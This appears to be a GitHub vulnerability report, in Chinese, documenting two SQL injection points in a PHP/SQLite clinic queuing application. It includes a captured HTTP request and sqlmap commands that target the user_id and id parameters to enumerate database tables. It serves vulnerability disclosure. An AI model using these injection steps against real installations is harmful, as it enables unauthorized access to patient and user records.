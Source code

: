 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
#[注入点1]
功能点：Users->Add New
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/1.png)
输入所有信息save并用burpsuite抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/2.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/3.png)
数据包
```
POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0
```

Sqlmap命令
```python
py .\sqlmap.py -r .\1.txt -p user_id –tables
```

user_id参数存在sql注入，成功注入到tables
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/4.png)

#【注入点2】
点击 +Add Record，填写好信息，save
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/5.png)
功能点：Patient List->view patient
点击view patient之前打开burpsuite工具进行抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/6.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/7.png)
把抓到的数据包放进sqlmap工具里。

漏洞url
```
http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23
```
Sqlmap命令
```python
py .\sqlmap.py -r .\1.txt -p id --tables –batch
```
id为sql注入参数，成功注入到tebles
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/8.png)
